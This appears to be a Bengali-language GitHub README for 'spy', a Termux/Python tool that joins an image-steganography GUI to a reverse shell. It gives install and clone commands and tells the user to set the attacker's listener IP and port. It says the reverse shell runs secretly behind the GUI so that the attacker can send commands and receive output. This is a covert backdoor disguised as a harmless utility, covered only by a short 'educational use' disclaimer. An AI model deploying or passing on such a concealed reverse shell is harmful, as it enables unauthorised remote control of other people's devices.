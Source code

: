 # spy
### ** (Steganography + Reverse Shell)**

কোডটি (ছবির ভিতরে ডাটা লুকানো) ফিচার একত্রিত করা হয়েছে।

### **Step-by-Step Guide: Termux Setup & Execution**

1. **Termux ইনস্টল করুন (Android ডিভাইসে)**:
   - **Termux** ইনস্টল করার জন্য Google Play Store থেকে **Termux** অ্যাপটি ডাউনলোড এবং ইনস্টল করুন।

2. **Termux-এ প্রয়োজনীয় প্যাকেজ ইনস্টল করুন**:
   - **Python** এবং **Tkinter** ইন্সটল করতে হবে।

   ```bash
   pkg update && pkg upgrade -y
   pkg install python -y
   pkg install python-pip -y
   pip install stegano
   pip install tk
   pkg instoll git
   git clone https://github.com/RH0099/spy.git
   ```

3. **কোড ফাইল তৈরি করুন**:
   - কোডটি একটি `.py` ফাইলে সেভ করতে হবে। আপনি Termux এর মধ্যে যে কোনো টেক্সট এডিটর ব্যবহার করে ফাইলটি তৈরি করতে পারেন, যেমন:
   
   ```bash
   cd spy
   ```

 4. **ব্যাকডোর পোর্ট ও IP সেট করুন**:
   - কোডে `server_ip` এবং `server_port` এর মান নির্ধারণ করতে হবে। এই তথ্যটি আপনার **attacker machine** বা **listener** এর IP এবং পোর্ট হতে হবে।
   
   উদাহরণস্বরূপ:
   ```python
   server_ip = "192.168.1.100"  # আক্রমণকারী সিস্টেমের IP
   server_port = 4444  # আপনার পছন্দের পোর্ট
   ```

5. **স্টেগানোগ্রাফি এবং ব্যাকডোর চালু করুন**:
   - কোড ফাইলটি চালাতে হলে **Python** দিয়ে রান করতে হবে:
   ```bash
   python Spy.py
   ```

   এতে একটি GUI প্রদর্শিত হবে যেখানে আপনি ছবি নির্বাচন করে গোপন বার্তা লুকাতে পারবেন। এছাড়া **reverse shell** কোডটি গোপনে কাজ করবে এবং আক্রমণকারী সিস্টেমে **কমান্ড** পাঠাতে সক্ষম হবে।

---

### **Information Capture Workflow**:
এখানে আপনার **Information Capture** প্রক্রিয়া কীভাবে কাজ করবে তা বিস্তারিত:

1. **স্টেগানোগ্রাফি**:
   - **ব্যবহারকারী একটি ছবি নির্বাচন করবে**।
   - **সেক্রেট মেসেজ** (যেমন ফাইল বা টেক্সট) সেই ছবির মধ্যে লুকানো হবে।
   - ব্যবহারকারী সেই ছবি **output.png** হিসাবে সেভ করবে। এই ছবিটি এখন বাহ্যিকভাবে কোনো কিছু ধারণ করছে না, কিন্তু এটি আসলে গোপন তথ্য ধারণ করছে।

2. **ব্যাকডোর (Reverse Shell)**:
   - টুলটি রান হলে এটি **Reverse Shell** সিস্টেম চালু করবে।
   - আক্রমণকারী (Attacker) **কোনো কমান্ড** পাঠাতে পারবে এবং সিস্টেম থেকে আউটপুট পেতে পারবে।
   - **আক্রমণকারী সিস্টেম** থেকে **shell** কার্যক্রম নিয়ন্ত্রণ করা যাবে।

---

### **অতিরিক্ত নিরাপত্তা এবং সতর্কতা:**
- **শিক্ষামূলক উদ্দেশ্যে** এই টুলটি ব্যবহার করুন।
- এই টুলের মাধ্যমে **অন্যদের অনুমতি ছাড়া** কোনো সিস্টেমে প্রবেশ বা কোনো বেআইনি কার্যক্রম করা সম্পূর্ণ অবৈধ এবং শাস্তিযোগ্য।
- **ব্যাকডোর** চালু করা সিস্টেমের নিরাপত্তা ঝুঁকি সৃষ্টি করতে পারে, তাই **এটি শুধুমাত্র অনুমোদিত পরীক্ষার জন্য** ব্যবহার করুন।
